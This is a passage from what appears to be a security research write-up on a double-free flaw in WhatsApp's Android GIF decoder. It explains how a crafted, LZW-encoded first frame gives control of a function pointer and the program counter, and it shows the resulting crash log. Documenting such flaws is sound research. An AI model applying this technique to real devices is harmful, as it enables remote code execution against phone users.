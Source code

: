 Because of the double-free bug occuring in the first parse, `info` and `info->rasterBits` now points to the same location. With the first frame crafted as said, we could control rewindFunction and PC when `info->rewindFunction(info);` is called.
Take note that the frames are all LZW encoded. We must use an LZW encoder to encode the frames. 
The above GIF triggers crash as below:
```
--------- beginning of crash
10-02 11:09:38.460 17928 18059 F libc    : Fatal signal 6 (SIGABRT), code -6 in tid 18059 (image-loader), pid 17928 (com.whatsapp)
10-02 11:09:38.467  1027  1027 D QCOM PowerHAL: LAUNCH HINT: OFF
10-02 11:09:38.494 18071 18071 I crash_dump64: obtaining output fd from tombstoned, type: kDebuggerdTombstone
10-02 11:09:38.495  1127  1127 I /system/bin/tombstoned: received crash request for pid 17928
10-02 11:09:38.497 18071 18071 I crash_dump64: performing dump of process 17928 (target tid = 18059)
10-02 11:09:38.497 18071 18071 F DEBUG   : *** *** *** *** *** *** *** *** *** *** *** *** *** *** *** ***
10-02 11:09:38.497 18071 18071 F DEBUG   : Build fingerprint: 'google/taimen/taimen:8.1.0/OPM1.171019.011/4448085:user/release-keys'
10-02 11:09:38.497 18071 18071 F DEBUG   : Revision: 'rev_10'
10-02 11:09:38.497 18071 18071 F DEBUG   : ABI: 'arm64'
10-02 11:09:38.497 18071 18071 F DEBUG   : pid: 17928, tid: 18059, name: image-loader  >>> com.whatsapp <<<
10-02 11:09:38.497 18071 18071 F DEBUG   : signal 6 (SIGABRT), code -6 (SI_TKILL), fault addr --------
10-02 11:09:38.497 18071 18071 F DEBUG   :     x0   0000000000000000  x1   000000000000468b  x2   0000000000000006  x3   0000000000000008
10-02 11:09:38.497 18071 18071 F DEBUG   :     x4   0000000000000000  x5   0000000000000000  x6   0000000000000000  x7   7f7f7f7f7f7f7f7f
10-02 11:09:38.497 18071 18071 F DEBUG   :     x8   0000000000000083  x9   0000000010000000  x10  0000007da3c81cc0  x11  0000000000000001
10-02 11:09:38.497 18071 18071 F DEBUG   :     x12  0000007da3c81be8  x13  ffffffffffffffff  x14  ff00000000000000  x15  ffffffffffffffff
10-02 11:09:38.497 18071 18071 F DEBUG   :     x16  00000055b111efa8  x17  0000007e2bb3452c  x18  0000007d8ba9bad8  x19  0000000000004608
10-02 11:09:38.497 18071 18071 F DEBUG   :     x20  000000000000468b  x21  0000000000000083  x22  0000007da3c81e48  x23  00000055b111f3f0
10-02 11:09:38.497 18071 18071 F DEBUG   :     x24  0000000000000040  x25  0000007d8bbff588  x26  00000055b1120670  x27  000000000000000b
10-02 11:09:38.497 18071 18071 F DEBUG   :     x28  00000055b111f010  x29  0000007da3c81d00  x30  0000007e2bae9760
10-02 11:09:38.497 18071 18071 F DEBUG   :     sp   0000007da3c81cc0  pc   0000007e2bae9788  pstate 0000000060000000
10-02 11:09:38.499 18071 18071 F DEBUG   :
10-02 11:09:38.499 18071 18071 F DEBUG   : backtrace:
10-02 11:09:38.499 18071 18071 F DEBUG   :     #00 pc 000000000001d788  /system/lib64/libc.so (abort+120)
10-02 11:09:38.499 18071 18071 F DEBUG   :     #01 pc 0000000000002fac  /system/bin/app_process64 (art::SignalChain::Handler(int, siginfo*, void*)+1012)
10-02 11:09:38.499 18071 18071 F DEBUG   :     #02 pc 00000000000004ec  [vdso:0000007e2e4b0000]
10-02 11:09:38.499 18071 18071 F DEBUG   :     #03 pc deadbeeefffffffc  <unknown>
```
